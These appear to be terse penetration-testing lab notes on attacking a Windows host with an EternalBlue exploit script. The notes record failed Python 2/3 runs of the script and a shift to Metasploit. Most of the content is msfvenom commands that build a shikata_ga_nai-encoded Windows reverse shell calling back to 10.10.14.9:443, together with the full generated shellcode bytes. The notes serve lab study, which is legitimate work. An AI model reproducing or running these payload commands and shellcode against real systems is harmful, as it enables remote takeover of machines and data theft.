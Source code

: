 
```sh
┌──(kali㉿proxli)-[~/exploits]
└─$ ./eternalblue.py                    
Traceback (most recent call last):
  File "/home/kali/exploits/./eternalblue.py", line 76, in <module>
    ntfea10000 = pack('<BBH', 0, 0, 0xffdd) + 'A'*0xffde
                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~^~~~~~~~~~~~
TypeError: can't concat str to bytes


┌──(kali㉿proxli)-[~/exploits]
└─$ python2 ./eternalblue.py
Traceback (most recent call last):
  File "./eternalblue.py", line 2, in <module>
    from impacket import smb
ImportError: No module named impacket
```

it's python 2, python 2 is no longer in kali. tried a bit but then did msf


going back and converting script tp python3, we have to test it

```
┌──(exploits)─(kali㉿proxli)-[~/exploits]
└─$ ./eternalblue.py
./eternalblue.py <ip> <shellcode_file> [numGroomConn]

```

we won't actually test it due to time - maybe later:

┌──(kali㉿proxli)-[~/exploits]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -e x86/shikata_ga_nai -f exe -o msfv-revsh-10.10.14.9-443.exe   
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: msfv-revsh-10.10.14.9-443.exe
                                                                                                               
┌──(kali㉿proxli)-[~/exploits]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -e x86/shikata_ga_nai -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1745 bytes
buf =  b""
buf += b"\xda\xd8\xb8\x74\xda\xb2\x15\xd9\x74\x24\xf4\x5b"
buf += b"\x29\xc9\xb1\x52\x31\x43\x17\x03\x43\x17\x83\xb7"
buf += b"\xde\x50\xe0\xcb\x37\x16\x0b\x33\xc8\x77\x85\xd6"
buf += b"\xf9\xb7\xf1\x93\xaa\x07\x71\xf1\x46\xe3\xd7\xe1"
buf += b"\xdd\x81\xff\x06\x55\x2f\x26\x29\x66\x1c\x1a\x28"
buf += b"\xe4\x5f\x4f\x8a\xd5\xaf\x82\xcb\x12\xcd\x6f\x99"
buf += b"\xcb\x99\xc2\x0d\x7f\xd7\xde\xa6\x33\xf9\x66\x5b"
buf += b"\x83\xf8\x47\xca\x9f\xa2\x47\xed\x4c\xdf\xc1\xf5"
buf += b"\x91\xda\x98\x8e\x62\x90\x1a\x46\xbb\x59\xb0\xa7"
buf += b"\x73\xa8\xc8\xe0\xb4\x53\xbf\x18\xc7\xee\xb8\xdf"
buf += b"\xb5\x34\x4c\xfb\x1e\xbe\xf6\x27\x9e\x13\x60\xac"
buf += b"\xac\xd8\xe6\xea\xb0\xdf\x2b\x81\xcd\x54\xca\x45"
buf += b"\x44\x2e\xe9\x41\x0c\xf4\x90\xd0\xe8\x5b\xac\x02"
buf += b"\x53\x03\x08\x49\x7e\x50\x21\x10\x17\x95\x08\xaa"
buf += b"\xe7\xb1\x1b\xd9\xd5\x1e\xb0\x75\x56\xd6\x1e\x82"
buf += b"\x99\xcd\xe7\x1c\x64\xee\x17\x35\xa3\xba\x47\x2d"
buf += b"\x02\xc3\x03\xad\xab\x16\x83\xfd\x03\xc9\x64\xad"
buf += b"\xe3\xb9\x0c\xa7\xeb\xe6\x2d\xc8\x21\x8f\xc4\x33"
buf += b"\xa2\xba\x12\x35\x3b\xd3\x20\x49\x3a\x98\xac\xaf"
buf += b"\x56\xce\xf8\x78\xcf\x77\xa1\xf2\x6e\x77\x7f\x7f"
buf += b"\xb0\xf3\x8c\x80\x7f\xf4\xf9\x92\xe8\xf4\xb7\xc8"
buf += b"\xbf\x0b\x62\x64\x23\x99\xe9\x74\x2a\x82\xa5\x23"
buf += b"\x7b\x74\xbc\xa1\x91\x2f\x16\xd7\x6b\xa9\x51\x53"
buf += b"\xb0\x0a\x5f\x5a\x35\x36\x7b\x4c\x83\xb7\xc7\x38"
buf += b"\x5b\xee\x91\x96\x1d\x58\x50\x40\xf4\x37\x3a\x04"
buf += b"\x81\x7b\xfd\x52\x8e\x51\x8b\xba\x3f\x0c\xca\xc5"
buf += b"\xf0\xd8\xda\xbe\xec\x78\x24\x15\xb5\x89\x6f\x37"
buf += b"\x9c\x01\x36\xa2\x9c\x4f\xc9\x19\xe2\x69\x4a\xab"
buf += b"\x9b\x8d\x52\xde\x9e\xca\xd4\x33\xd3\x43\xb1\x33"
buf += b"\x40\x63\x90"

